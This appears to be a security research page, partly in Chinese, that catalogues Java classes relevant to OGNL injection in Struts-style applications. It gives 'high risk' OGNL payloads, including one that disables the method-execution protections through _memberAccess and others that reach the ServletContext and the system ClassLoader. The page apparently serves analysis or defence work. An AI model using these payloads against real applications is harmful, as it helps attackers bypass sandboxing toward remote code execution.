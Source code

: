 
### 24 = "java.lang.Class"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Class()}
  ```
  ![](./imgs/chop-24-001.png)


### 25 = "java.lang.RuntimePermission"
* src-code 中有 `final` 修饰，不能被继承
  [Jump to java.lang.RuntimePermission](./assets/RuntimePermission.java)
* payload
  ```js
  // high risk
  %{@java.lang.RuntimePermission}
  ```


### 26 = "javax.servlet.ServletContext"
* 这是一个接口，不能实例化
* Servlet 容器启动时，会为每个 Web 应用（webapps 下的每个目录都是一个 Web 应用）创建一个唯一的 ServletContext 对象
* Web 应用中的所有 Servlet 共享同一个 ServletContext，不同 Servlet 之间通过 ServletContext 对象实现数据通讯
* src-code  
  [Jump to ServletContext](./assets/ServletContext.java)
* [参考 biancheng](http://c.biancheng.net/servlet2/servletcontext.html)
* payload
* ```js
  %{#sc=@javax.servlet.http.HttpServletRequest.getSession().getServletContext()}
  ```


### 27 = "java.lang.ClassLoader"
* src-code 中有 `abstract` 修饰，抽象类不能实例化。其后所有的类加载器都继承自 ClassLoader
  [Jump to java.lang.ClassLoader](./assets/ClassLoader.java)
* 获取ClassLoader的途径  
  ![](https://img-blog.csdnimg.cn/20200531230226527.png)
* payload
  ```js
  // high risk
  %{@java.lang.ClassLoader@getSystemClassLoader()}
  // 在这个基础上执行 ClassLoader 类方法都是 high risk
  %{@java.lang.ClassLoader@getSystemClassLoader().*}
  ```